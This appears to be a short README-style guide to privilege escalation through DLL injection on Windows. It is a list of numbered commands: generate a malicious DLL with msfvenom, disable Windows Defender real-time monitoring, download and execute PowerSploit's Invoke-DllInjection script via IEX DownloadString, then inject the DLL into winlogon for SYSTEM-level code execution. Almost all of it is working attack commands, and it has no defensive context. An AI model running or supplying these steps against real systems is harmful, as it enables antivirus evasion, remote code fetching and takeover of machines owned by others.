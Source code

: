 1. Create a malicious dll to inject - msfvenom -p windows/x64/exec "cmd=cmd.exe /k" -f dll > mal.dll
2. Run powershell as administrator
3. Disable the antivirus - Set-MpPreference -DisableRealTimeMonitoring $true
4. download the invoke-dllinjection script - IEX (New-object Net.webclient).DownloadString('https://raw.githubusercontent.com/PowerShellMafia/PowerSploit/master/CodeExecution/Invoke-DllInjection.ps1')
5. List running processes - ps
6. Copy a process ID using a system premmition level like winlogon
7. Inject the malicious dll to winlogon by using DLLInjection module - Invoke-DLLInjection -ProcessID [pid] -DLL [malicious DLL path]
8. Check who runs the terminal
